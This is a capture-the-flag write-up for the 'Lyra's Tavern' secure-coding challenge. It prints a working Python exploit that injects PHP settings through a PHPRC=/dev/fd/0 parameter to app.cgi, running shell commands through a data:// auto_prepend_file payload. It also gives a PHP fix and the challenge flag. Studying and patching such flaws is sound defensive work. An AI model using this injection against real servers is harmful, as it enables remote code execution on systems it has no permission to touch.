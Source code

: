 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Lyra's Tavern
> Lyra's Tavern is a simple and adventurous place for the common day adventurer to rest and get some drinks while having entertainment. She recently released a system for adventurers to share their experiences in form of chronicles. However, there has been evidence of backdoor access on the server forcing her to isolate it for maintenance. She has trusted you with the source code to find and fix any vulnerability evident within the system. Can you undertake this crucial task and assist us to give the adventurers this unique experience ? A handsome reward awaits ;)


- **Category**: Secure Coding 
- **Difficulty**: Easy
- **Author**: Cioppo


## Writeup


The exploits creates a file ``out.txt`` with the output of the command ``id`` in our application directory and the it gets that file.
```py
payload = b'<? shell_exec("id > /www/application/out.txt"); ?>'
data_url = f"data://text/plain;base64,{base64.b64encode(payload).decode()}"
data = {
    "data":urllib.parse.quote(f"allow_url_include=1\nauto_prepend_file=\"{data_url}\"")
}

response = requests.post(f"{URL}/cgi-bin/app.cgi?PHPRC=/dev/fd/0", data=data)
print("[*] HTTP Status:", response.status_code)
response = requests.get(f"{URL}/out.txt")
```
This happens because there is a app.cgi in this program whose purpose is to run config.php and it gives it the data that got passed to app.cgi. 
In out program this is used to make a footer (???), our application gives app.cgi proper_config.ini as it's phprc, but app.cgi just checks if the files exists and nothing else. We can make a super easy fix by just checking if the ``$phprc`` variable is set to that file, because why wouldn't it be? (we could hard code it but this way we keep functionality, not the best fix but it gets the flag)
```php
<?php
header("Content-Type: text/html");
header("Status: 200 OK");
echo "\r\n";

$phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
$data = isset($_REQUEST['data']) ? $_REQUEST['data'] : null;

if (!is_null($phprc) && !is_null($data)) {

    $data = urldecode($data);

    if ( $phprc != "/tmp/php_config/proper_config.ini" ) {
        echo "Naughty Naughty!";
        exit;
    }
    if (!file_exists($phprc) || !file_exists("/www/application/config.php")) {
        echo "File not found: " . htmlspecialchars($phprc);
        exit;
    }
    // ...
```

>HTB{N0W_Y0U_S33_M3_N0W_Y0U_D0NT!@_b9d4826ac43a24155b02204a8ff3ec9a}